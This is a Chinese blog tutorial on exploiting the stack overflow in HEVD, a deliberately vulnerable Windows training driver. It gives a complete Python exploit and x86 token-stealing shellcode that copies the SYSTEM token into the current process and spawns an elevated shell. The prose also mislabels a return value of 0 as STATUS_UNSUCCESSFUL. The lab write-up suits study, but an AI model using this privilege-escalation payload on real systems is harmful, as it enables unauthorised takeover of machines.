


（一）HEVD 栈溢出
转载请注明出处哦 : )
0x00 前言¶
这是HEVD漏洞利用学习的第一篇，所以本篇就尽可能地阐述得详细一些，包括从哪里开始入手，整个过程我们应该要做什么以及漏洞的分析利用。后续的HEVD篇章将侧重于对漏洞的分析及其利用。
既然是第一篇，我们就从最简单的栈溢出入手吧。
0x01 windbg preview 中无法显示 dbgprint 消息的问题¶
首先本节和HEVD漏洞利用学习没有关系，即使这个问题不解决也可以顺利地完成利用。本节只是写给和我一样有点儿强迫症的“患者” : )
 如图所示，DbgPrint 函数的执行结果无法被 windbg 接受到。
如图所示，DbgPrint 函数的执行结果无法被 windbg 接受到。
这时候你如果感觉奇怪并且想看到 DbgPrint 函数的输出结果的话你就会开始上网搜索类似于本节标题的内容。
然后，你可以看到很多的结果，但是几乎所有的答案都是告诉了你这两个方法
- 键入 ed Kd_DEFAULT_MASK 8 (或是 0xf 或是 0xffffffff，这个不重要，只要 8 那一位为 1 就可以了)
- 添加注册表键
HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Debug Print Filter的一个名叫DEFAULT的32位DWORD值为 8 (同理或是0xf 或是 0xffffffff)
当然这时候如果起作用的话自然是最好，如果不起作用的话可以试试以下解决办法。
首先在要调试的机器（这里是我的win7虚拟机）上以管理员权限运行 DebugView，然后勾选上
Capture Kernel和Enable Verbose Kernel Output之后使用 windbg 调试就可以看到 DbgPrint 输出的消息了
不过这是个什么原理我也搞不懂。
还有个问题就是从图中可以看到我敲完命令后一直出来一句 DBGHELP: HEVD is not indexed，虽然不影响分析但是有没有大哥知道这是什么意思以及怎么解决？
0x02 HEVD 栈溢出漏洞分析¶
首先看到我们下载的 HEVD 项目，我们可以看到有这么两个文件夹
- HackSysExtremeVulnerableDriver/Driver/HEVD: HEVD.sys 驱动程序的 build 源码
- HackSysExtremeVulnerableDriver/Exploit: HEVD 的漏洞利用代码
打开 /Driver/HEVD 文件夹下的 BufferOverflowStack.c 文件，这就是栈溢出漏洞的所在。阅读一下源码我们可以很容易地看到漏洞在 TriggerBufferOverflowStack 函数中
很显然地告诉了我们漏洞产生的原因是因为没有检查 UserBuffer 的大小直接将它复制给了 KernelBuffer。大家都知道一旦有栈溢出漏洞产生，我们就可以控制指令流了。HEVD 项目中用提权来验证这个漏洞，我们能做的当然不仅如此，不过这里我们也用提权来验证这个漏洞。
接下来分析一下驱动程序的执行流
可以看到从入口函数进来以后先到了 IrpDeviceIoCtlHandler 中然后才是到我们的漏洞函数，跟进 IrpDeviceIoCtlHandler 函数中看一下

看到红框中的汇编代码。[ebp + IoControlCode] 就是我们输入的 IO Control Code。大家稍作分析就能得出当我们的 IO Control Code 等于 0x222003 时，在最后一句 jmp 指令中 ecx 就等于 0。当最后一句 jmp 中 ecx 等于0 时就会跳转到 $LN5。而 $LN5 中的指令将跳转到函数 BufferOverflowStackIoctlHandler 中。（其中的标识符名称可能会不一样，但思路是一样的）
到目前为止我们就可以通过以下代码进入漏洞函数 TriggerBufferOverflowStack 了（HEVD 项目使用 c 来编写 exp，个人还是觉得用 python 来编写 exp 更方便一些）
import ctypes, sys from ctypes import * kernel32 = windll.kernel32 # 0xC0000000 前四位为 1100,等同于GENERIC_READ | GENERIC_WRITE,即读写权限 # 0x3 为 0011,等同于FILE_ATTRIBUTE_READONLY | FILE_ATTRIBUTE_HIDDEN,即只读和隐藏属性 hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None) if not hevDevice or hevDevice == -1: print "*** Couldn't get Device Driver handle." sys.exit(0) buf = "A" * 2048 bufLength = len(buf) kernel32.DeviceIoControl(hevDevice, 0x222003, buf, bufLength, None, 0, byref(c_ulong()), None)
相关函数若不了解就自行查阅相关文档吧。
到目前为止我们已经可以进入漏洞函数了，那么接下来就是如何利用漏洞函数的问题了，想想我们接下来需要哪些东西？
- 如何触发漏洞
- 一个可以执行的空间，里面包含着我们的 shellcode。在这里为提权代码
- 使指令流指向我们的 shellcode
如何触发漏洞¶
从 IDA 中我们可以很容易地得出从 KernelBuffer 到 r 需要 0x828 + 0x4 的 byte。也就是说，如果我们输入的buf 是 0x82c + shellcode address 的话，那么执行完 TriggerBufferOverflowStack 就会跳转到我们的 shellcode 中了。
一个可以执行的空间，里面包含着我们的 shellcode¶
一个可以执行的空间我们可以通过 VirtualAlloc 函数来分配，然后把我们的 shellcode byte 流从进程的数据空间中拷贝到新分配的空间中就好了。
shellcode 我们可以使用 HackSysExtremeVulnerableDriver\Exploit\Payloads.c 中的代码。这里直接贴出 shellcode 并给出其含义。
#include "stdafx.h" #include <stdio.h> #define KTHREAD_OFFSET 0x124 // nt!_KPCR.PcrbData.CurrentThread #define EPROCESS_OFFSET 0x050 // nt!_KTHREAD.ApcState.Process #define PID_OFFSET 0x0B4 // nt!_EPROCESS.UniqueProcessId #define FLINK_OFFSET 0x0B8 // nt!_EPROCESS.ActiveProcessLinks.Flink #define TOKEN_OFFSET 0x0F8 // nt!_EPROCESS.Token #define SYSTEM_PID 0x004 // SYSTEM Process PID int main() { __asm { pushad; Save registers state ; Start of Token Stealing Stub xor eax, eax; Set ZERO mov eax, fs:[eax + KTHREAD_OFFSET]; Get nt!_KPCR.PcrbData.CurrentThread ; _KTHREAD is located at FS : [0x124] mov eax, [eax + EPROCESS_OFFSET]; Get nt!_KTHREAD.ApcState.Process mov ecx, eax; Copy current process _EPROCESS structure mov edx, SYSTEM_PID; WIN 7 SP1 SYSTEM process PID = 0x4 SearchSystemPID: mov eax, [eax + FLINK_OFFSET]; Get nt!_EPROCESS.ActiveProcessLinks.Flink sub eax, FLINK_OFFSET cmp[eax + PID_OFFSET], edx; Get nt!_EPROCESS.UniqueProcessId jne SearchSystemPID mov edx, [eax + TOKEN_OFFSET]; Get SYSTEM process nt!_EPROCESS.Token mov[ecx + TOKEN_OFFSET], edx; Replace target process nt!_EPROCESS.Token ; with SYSTEM process nt!_EPROCESS.Token ; End of Token Stealing Stub popad; Restore registers state ; Kernel Recovery Stub xor eax, eax; Set NTSTATUS SUCCEESS add esp, 20; Fix the stack pop ebp; Restore saved EBP ret 8; Return cleanly } }
首先插个题外话，明明我们的 exp 是用 python 编写的为什么这里的 shellcode 是 c ?
因为我们的 shellcode 最终是要转化为字节的形式的，然后我把汇编代码转化为字节的形式是使用 VS 的 debug 窗口来做到的
像这样一个 byte 一个 byte 地复制粘贴出来，个人感觉这种做法很低效，不知道师傅们有没有什么好用的方法呢?

shellcode 的代码不长，这里就解释一下整段代码。

首先看这一段。在内核模式下， fs寄存器指向 PCR(Processor Control Region)，其数据结构为 KPCR。我们可以在 windbg 中看到其具体结构

（下文的所有数据结构同理，我就不一一贴图了，比如KTHREAD的查看方法为 dt _kthread）
可以看到，在 fs:[0x124] 的位置存放的值是 CurrentThread，其数据结构为 KTHREAD
然后 KTHREAD.ApcState.Process 指向的是 KPREOCESS 结构，所以最后 eax 的值指向当前进程的 EPROCESS 结构（这里解释一下，KTHREAD.ApcState.Process 确实是指向 KPROCESS 没错，但是因为 KPROCESS 是 EPROCESS 结构体中的第一个成员，所以 KPROCESS 和 EPROCESS 的起始地址其实是一样的）

ActiveProcessLinks 是一个双链表节点，在 Windwos 中，所有的活动进程都连接在一起，构成一个双链表。当一个进程被创建时，其 ActiveProcessLinks 域将被作为节点加入到此链表中。而其中 Flink 是指向较早加入的进程的。
所以这段代码的大致意思就是不断地往前找，直到找到一个进程的 PID 为 4（SYSTEM 进程的 PID），取出它的 Token 值并将这个 Token 值复制给我们的进程。

最后这段代码是用来还原指令流的。（同时使被我们控制的esp 和 ebp 回到正常的值，置返回值为 STATUS_UNSUCCESSFUL）

看到这段汇编指令。本来 TriggerBufferOverflowStack 函数的 ret 是要回到 BufferOverflowStackIoctlHandler 中的 mov [ebp+Status], eax 的。但是被我们控制了 eip 到了我们的 shellcode。所以若我们想让指令回到正常，只需要在shellcode的最后做跟原来一样的操作，就能正常地返回到 IrpDeviceIoCtlHandler 中。
因此，我们应该
- 使 eax 值等于 STATUS_UNSUCCESSFUL，也就是 0
- add esp, 20。为什么这里我们不能 mov esp, ebp呢？因为这里的 ebp 被我们控制成 0x41414141 了。并不指向原来的 old ebp。那这里具体应该使 esp 加多少就要看原来正常的指令到了 call _TriggerBufferOverflowStack 时 ebp 和 esp 相差多少了。假设这时候 ebp 和 esp 相差 0x16，那么我们 add esp, x 中的 x 就等于 0x20（因为 call 指令会执行一条 push eip 使 esp 产生 4 的移动，并且 shellcode 全程并没有使 esp 产生移动）我们可以通过 windbg 来得到这个数值
- 最后就是 pop ebp;ret 8
使指令流指向我们的 shellcode¶
这个很简单，只需要控制 eip 指向我们的 shellcode 的地址就好了
0x03 HEVD 栈溢出漏洞利用¶
根据以上的分析我觉得这里应该不用再解释了，这里直接给出 exp 并看一下它的运行结果
#coding=utf-8 import ctypes, sys, struct from ctypes import * from subprocess import * kernel32 = windll.kernel32 # 0xC0000000 前四位为 1100,等同于GENERIC_READ | GENERIC_WRITE,即读写权限 # 0x3 为 0011,等同于FILE_ATTRIBUTE_READONLY | FILE_ATTRIBUTE_HIDDEN,即只读和隐藏属性 hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None) if not hevDevice or hevDevice == -1: print "*** Couldn't get Device Driver handle." sys.exit(0) shellcode = "" shellcode += bytearray( "\x60" # pushad "\x33\xC0" # xor eax,eax "\x64\x8B\x80\x24\x01\x00\x00" # mov eax,dword ptr fs:[eax+124h] "\x8B\x40\x50" # mov eax,dword ptr [eax+50h] "\x8B\xC8" # mov ecx,eax "\xBA\x04\x00\x00\x00" # mov edx,4 "\x8B\x80\xB8\x00\x00\x00" # mov eax,dword ptr [eax+0B8h] "\x2D\xB8\x00\x00\x00" # sub eax,0B8h "\x39\x90\xB4\x00\x00\x00" # cmp dword ptr [eax+0B4h],edx "\x75\xED" # jne SearchSystemPID "\x8B\x90\xF8\x00\x00\x00" # mov edx,dword ptr [eax+0F8h] "\x89\x91\xF8\x00\x00\x00" # mov dword ptr [ecx+0F8h],edx "\x61" # popad "\x33\xC0" # xor eax,eax "\x83\xC4\x14" # add esp,14h "\x5D" # pop ebp "\xC2\x08\x00" # ret 8 ) # 0x3000 等同于MEM_COMMIT | MEM_RESERVE, 即预留并提交该块内存 # 0x40 指示了分配的页面的保护属性,其值等同于PAGE_EXECUTE_READWRITE,即可读可写可执行 ptr = kernel32.VirtualAlloc(c_int(0),c_int(len(shellcode)),c_int(0x3000),c_int(0x40)) buff = (c_char * len(shellcode)).from_buffer(shellcode) # 把shellcode 复制到分配的内存中 kernel32.RtlMoveMemory(c_int(ptr),buff,c_int(len(shellcode))) shellcode_final = struct.pack("<L",ptr) buf = "A" * 2092 + shellcode_final bufLength = len(buf) kernel32.DeviceIoControl(hevDevice, 0x222003, buf, bufLength, None, 0, byref(c_ulong()), None) Popen("start cmd", shell = True)
运行结果如图所示
0x04 结束语¶
从下一篇开始将会侧重于对漏洞进行分析利用。
2019.8.28
本页面的全部内容在 CC BY-NC-SA 3.0 协议之条款下提供